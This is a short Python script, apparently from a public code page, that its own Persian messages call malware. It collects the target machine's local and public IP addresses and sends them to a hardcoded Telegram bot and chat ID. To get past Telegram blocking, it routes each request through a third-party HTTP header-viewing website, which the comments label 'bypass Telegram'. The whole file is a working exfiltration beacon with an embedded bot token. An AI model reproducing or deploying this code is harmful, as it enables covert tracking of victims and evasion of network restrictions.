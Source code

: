 import time
import requests
import socket
from colorama import Fore
from time import sleep


# ip
Host_name = socket.gethostname()
ip_local = socket.gethostbyname(Host_name)
http = requests.get('https://api.ipify.org/').text


# alarm telegram

url3 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + 'بد افزار فعال شد'


# bypass Telegram
pyload = {'UrlBox': url3,
          'AgentList': 'Google Chrome',
          'VersionsList': 'HTTP/1.1',
          'MethodList': 'GET'
          }

https = requests.post(
    'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)


# url
url = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
    'آیپی لوکال تارگت : ' + ip_local+'\n'+'آیپی پابلیک تارگت  : '+http


# bypass Telegram
pyload = {'UrlBox': url,
          'AgentList': 'Google Chrome',
          'VersionsList': 'HTTP/1.1',
          'MethodList': 'GET'
          }

https = requests.post(
    'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)
# print(https)


